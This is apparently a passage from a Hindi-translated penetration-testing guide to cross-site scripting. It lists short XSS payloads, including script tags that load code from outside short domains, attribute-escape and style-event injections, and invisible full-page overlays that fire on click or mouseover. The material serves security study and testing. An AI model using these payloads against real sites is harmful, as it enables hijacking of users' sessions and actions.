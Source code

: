 ```javascript
//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
### Length bypass (small XSSs)

{% hint style="info" %}
**विभिन्न वातावरणों के लिए अधिक छोटे XSS** payload [**यहां पाया जा सकता है**](https://github.com/terjanq/Tiny-XSS-Payloads) और [**यहां**](https://tinyxss.terjanq.me).
{% endhint %}
```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```
The last one is using 2 unicode characters which expands to 5: telsr\
इनमें से अधिक वर्ण [यहाँ](https://www.unicode.org/charts/normalization/) पाए जा सकते हैं।\
यह जांचने के लिए कि कौन से वर्ण विघटित होते हैं, [यहाँ](https://www.compart.com/en/unicode/U+2121) देखें।

### Click XSS - Clickjacking

यदि भेद्यता का लाभ उठाने के लिए आपको **उपयोगकर्ता को एक लिंक या एक फॉर्म** पर क्लिक करने की आवश्यकता है जिसमें पूर्व-भरे हुए डेटा हैं, तो आप [**Clickjacking का दुरुपयोग करने की कोशिश कर सकते हैं**](../clickjacking.md#xss-clickjacking) (यदि पृष्ठ कमजोर है)।

### Impossible - Dangling Markup

यदि आप केवल यह सोचते हैं कि **JS कोड निष्पादित करने के लिए एक HTML टैग के साथ एक विशेषता बनाना असंभव है**, तो आपको [**Dangling Markup**](../dangling-markup-html-scriptless-injection/) की जांच करनी चाहिए क्योंकि आप **भेद्यता का लाभ उठा सकते हैं** **बिना** **JS** कोड निष्पादित किए।

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

यदि आप **HTML टैग के अंदर हैं**, तो आप जो पहली चीज़ कर सकते हैं वह है **टैग से बाहर निकलना** और [पिछले अनुभाग](./#injecting-inside-raw-html) में उल्लिखित कुछ तकनीकों का उपयोग करना ताकि JS कोड निष्पादित किया जा सके।\
यदि आप **टैग से बाहर नहीं निकल सकते**, तो आप टैग के अंदर नए विशेषताएँ बना सकते हैं ताकि JS कोड निष्पादित करने की कोशिश की जा सके, उदाहरण के लिए कुछ पेलोड का उपयोग करके जैसे (_ध्यान दें कि इस उदाहरण में विशेषता से बाहर निकलने के लिए डबल उद्धरण चिह्नों का उपयोग किया गया है, यदि आपका इनपुट सीधे टैग के अंदर परिलक्षित होता है तो आपको उनकी आवश्यकता नहीं होगी_):
```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```
**शैली घटनाएँ**
```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```